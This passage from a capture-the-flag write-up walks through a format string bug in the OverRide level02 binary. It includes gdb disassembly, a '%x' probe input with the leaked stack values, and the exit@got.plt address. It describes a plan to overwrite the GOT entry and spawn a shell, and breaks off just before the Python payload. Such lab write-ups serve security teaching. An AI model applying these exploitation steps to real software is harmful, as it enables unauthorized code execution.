 ```s
   0x0000000000400a95 <+641>: ret
   0x0000000000400a96 <+642>: lea    rax,[rbp-0x70]
   0x0000000000400a9a <+646>: mov    rdi,rax
   0x0000000000400a9d <+649>: mov    eax,0x0
   0x0000000000400aa2 <+654>: call   0x4006c0 <printf@plt>
   0x0000000000400aa7 <+659>: mov    edi,0x400d3a
   0x0000000000400aac <+664>: call   0x400680 <puts@plt>
   0x0000000000400ab1 <+669>: mov    edi,0x1
   0x0000000000400ab6 <+674>: call   0x400710 <exit@plt>
```

Upon analyzing the code, it seems that there is a vulnerability in the `printf()` function known as a `format string` vulnerability. This type of vulnerability allows me to provide a format string that contains conversion specifications which enable me to reference memory locations that I am not authorized to access. By using certain conversion specifications like `%x`, `%p`, or `%n`, I can potentially read or write data from arbitrary memory locations.

In this particular case, the format string vulnerability allows me to overwrite the address of the `exit` function in the Global Offset Table `(GOT)` with the address of the `system` call, which will start a new shell process using the `"system"` function. This means that I can gain access to system-level privileges and execute arbitrary code.

Initially, I used the `x` conversion specifier to display the values in hexadecimal format. Subsequently, the resulting output appeared as follows:

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %x %x %x %x %x %x %x %x
--[ Password: AAAA
*****************************************
ffffe4c0 0 41 2a2a2a2a 2a2a2a2a ffffe6b8 f7ff9a08 41414141 does not have access!
```

In this example, the printf function printed a memory address followed by the value `41414141`, which represents the ASCII characters `"AAAA"`. This value was passed in the password. Based on this observation, I decided to pass the memory address of the `exit` function instead of the `AAAA` string to see if the output would include the inputted address:

In the given example, we will locate the address of the `exit` function.

```s
(gdb) disas 0x400710
Dump of assembler code for function exit@plt:
   0x0000000000400710 <+0>: jmp    QWORD PTR [rip+0x200b12]        # 0x601228 <exit@got.plt>
   0x0000000000400716 <+6>: push   0xa
   0x000000000040071b <+11>: jmp    0x400660
End of assembler dump.
```

To accomplish this, I utilized Python to generate the required strings:
